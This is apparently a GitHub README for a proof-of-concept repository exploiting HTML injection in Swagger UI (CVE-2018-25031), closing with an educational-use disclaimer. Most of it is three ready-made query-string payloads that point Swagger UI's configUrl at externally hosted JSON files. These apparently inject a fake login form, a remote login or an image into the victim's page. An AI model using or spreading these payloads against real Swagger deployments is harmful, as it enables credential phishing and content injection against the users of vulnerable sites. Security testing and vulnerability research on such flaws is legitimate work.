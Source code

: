 # swagger-ui

POC for Testing HTML Injection in Swagger UI (CVE-2018-25031).

## Payloads
### 1 - Login
`?configUrl=https://raw.githubusercontent.com/RelicHunt3r/swagger-ui/refs/heads/main/login.json`

### 2 - Remote Login
`?configUrl=https://raw.githubusercontent.com/RelicHunt3r/swagger-ui/refs/heads/main/remote-login.json`

### 2 - Image
`?configUrl=https://raw.githubusercontent.com/RelicHunt3r/swagger-ui/refs/heads/main/img.json`

---

📌 **Disclaimer**: The content in this repository is provided for educational and informational purposes only. The author is not responsible for any misuse. Ensure you have proper authorization before use, act responsibly at your own risk, and follow all legal and ethical guidelines.
